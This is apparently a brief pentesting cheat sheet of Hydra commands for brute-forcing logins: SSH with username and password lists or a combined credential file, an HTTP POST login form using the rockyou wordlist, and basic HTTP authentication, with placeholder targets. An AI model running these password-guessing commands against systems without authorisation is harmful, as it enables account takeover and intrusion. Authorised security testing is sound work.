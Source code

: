 Add `-F` to stop Hydra on the first match
## SSH

```bash
hydra -L users.txt -P pass.txt x.x.x.x ssh -V
```

Using a username and password file, separated by a `:`

```bash
hydra -C pass.txt x.x.x.x ssh -V
```

### Web-Post-Form

```bash
hydra -l kevin -P /opt/rockyou.txt x.x.x.x {-s xxxx} http{s}-post-form "/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -VV -F -I
```

### Basic HTTP Authentication:

```bash
hydra -l kevin -P /opt/rockyou.txt -s <port> <target> http[s]-get /
```

